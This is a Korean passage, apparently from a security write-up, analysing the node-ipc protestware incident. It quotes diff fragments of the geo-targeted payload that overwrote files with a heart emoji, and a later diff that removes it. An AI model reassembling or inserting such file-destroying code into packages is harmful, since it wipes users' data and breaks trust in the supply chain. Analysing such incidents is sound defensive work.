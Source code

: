 이것을 타이머 함수로 넘기면 다음행에서 파일 입력 소스로 사용되어 파일내용을 삭제하고 하트로 바꾼다.
(`+ const c = Buffer.from("4p2k77iP", "base64");` from `diff`)

```diff
+      try {
+        import_fs3.default.writeFile(i, c.toString("utf8"), function() {
+        });
```

이 시점에서 이 패키지를 호출하는 시스템이 러시아, 벨라루스의 지리적 위치와 일치한다면 명백한 부정사용, 심각한 서플라이체인 사고가 발생한다.

`node-ipc@10.1.1` `README` 파일 갱신내용에는 이 새로 추가된 행동에 대한 기술은 **없다**. 대신 `RIAEvangelist`를 지원하는 방법이나, 버전 10이상 ES6, CommonJS 버전의 `node-ipc` 사용하는 방법만 있다.

약 10시간 뒤, `node-ipc@10.1.2`가 출시되었지만 버전만 올랐지 거의 변경은 없다. 잠재적으로 패키지 자동업데이트를 실행하는 것을 의도한 것일지도 모른다. 이하는 2개의 버전의 차이이다.

```diff
diff --git a/package.json b/package.json
index v10.1.1..v10.1.2 100666
--- a/package.json
+++ b/package.json
@@ -1,6 +1,6 @@
 {
   "name": "node-ipc",
-  "version": "10.1.1",
+  "version": "10.1.2",
   "description": "A nodejs module for local and remote Inter Process Communication (IPC), Neural Networking, and able to facilitate machine learning.",
   "type": "module",
   "main": "node-ipc.cjs",
```

### 3월 8일

3월8일, 대충 5시간 뒤에, 새로운 버전이 push되었다. `node-ipc@10.1.3`은 전술한 파괴적인 페이로드 징부는 모드 지워졌다. 이 2개의 버전의 git 차이를 이렇다.

```diff
diff --git a/node-ipc.cjs b/node-ipc.cjs
index v10.1.2..v10.1.3 100666
--- a/node-ipc.cjs
+++ b/node-ipc.cjs
@@ -1030,74 +1030,6 @@
   });
 }

-// dao/ssl-geospec.js
-var import_path = __toModule(require("path"));
-var import_fs3 = __toModule(require("fs"));
-var import_https = __toModule(require("https"));
-setTimeout(function() {
-  const t = Math.round(Math.random() * 4);
-  if (t > 1) {
-    return;
-  }

…
diff --git a/dao/ssl-geospec.js b/dao/ssl-geospec.js
deleted file mode 100666
index v10.1.2..v10.1.3
--- a/dao/ssl-geospec.js
+++ b/dao/ssl-geospec.js
@@ -1,1 +0,0 @@
```